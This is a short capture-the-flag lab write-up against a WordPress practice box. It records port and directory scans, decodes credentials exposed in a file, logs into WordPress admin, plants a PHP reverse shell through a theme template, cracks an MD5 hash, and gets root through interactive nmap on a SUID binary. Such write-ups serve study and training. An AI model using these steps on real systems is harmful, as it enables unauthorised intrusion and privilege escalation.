 > Author: jak010   
> Date: 2021.05.29

## Scan
- Result
  ```text
  	Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-29 04:10 UTC
	Nmap scan report for 10.10.225.168
	Host is up (0.033s latency).
	Not shown: 997 filtered ports
	PORT    STATE  SERVICE VERSION
	22/tcp  closed ssh
	80/tcp  closed http
	443/tcp closed https

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 14.16 seconds
  ```

## Enumeration
  - Hidden Directory Searching
    ```text
    /js                   (Status: 301) [Size: 232] [--> http://10.10.225.168/js/]
	/images               (Status: 301) [Size: 236] [--> http://10.10.225.168/images/]
	/admin                (Status: 301) [Size: 235] [--> http://10.10.225.168/admin/]
	/wp-content           (Status: 301) [Size: 240] [--> http://10.10.225.168/wp-content/]
	/css                  (Status: 301) [Size: 233] [--> http://10.10.225.168/css/]
	/wp-admin             (Status: 301) [Size: 238] [--> http://10.10.225.168/wp-admin/]
	/wp-includes          (Status: 301) [Size: 241] [--> http://10.10.225.168/wp-includes/]
	/xmlrpc               (Status: 405) [Size: 42]
	/blog                 (Status: 301) [Size: 234] [--> http://10.10.225.168/blog/]
	/login                (Status: 302) [Size: 0] [--> http://10.10.225.168/wp-login.php]
	/feed                 (Status: 301) [Size: 0] [--> http://10.10.225.168/feed/]
	/rss                  (Status: 301) [Size: 0] [--> http://10.10.225.168/feed/]
	/video                (Status: 301) [Size: 235] [--> http://10.10.225.168/video/]
	/sitemap              (Status: 200) [Size: 0]
	/image                (Status: 301) [Size: 0] [--> http://10.10.225.168/image/]
	/audio                (Status: 301) [Size: 235] [--> http://10.10.225.168/audio/]
	/phpmyadmin           (Status: 403) [Size: 94]
	/dashboard            (Status: 302) [Size: 0] [--> http://10.10.225.168/wp-admin/]
	/wp-login             (Status: 200) [Size: 2613]
	/0                    (Status: 301) [Size: 0] [--> http://10.10.225.168/0/]
	/readme               (Status: 200) [Size: 64]
	/atom                 (Status: 301) [Size: 0] [--> http://10.10.225.168/feed/atom/]
	/robots               (Status: 200) [Size: 41]
	/license              (Status: 200) [Size: 309]
	/intro                (Status: 200) [Size: 516314]
    ```
    - `/license`
      ```text
      what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?do you want a password or something? ZWxsaW90OkVSMjgtMDY1Mgo=
      ```
      - `echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d `
        - `Result`: elliot:ER28-0652


## Weakness WordPress 
 - `/wp-admin`
    - Credential login with `elliot:ER28-0652`
 - `wpscan`
 	- themes file path
 	  ```text
 	   /10.10.225.168/wp-content/themes/twentyfifteen/
 	  ```


## Ganing Access
 - `wp theme template change php-reverse-shell`
 
## User Escalate 
 - `password.raw-md5`
	- `robot:c3fcd3d76192e4007dfb496cca67e13b`
    	- Password: `abcdefghijklmnopqrstuvwxyz`


## Privilige Escalate
 - `find / -perm 4000 2>/dev/null`
 	- /usr/local/bin/nmap --interactive
    	- nmap> !bash

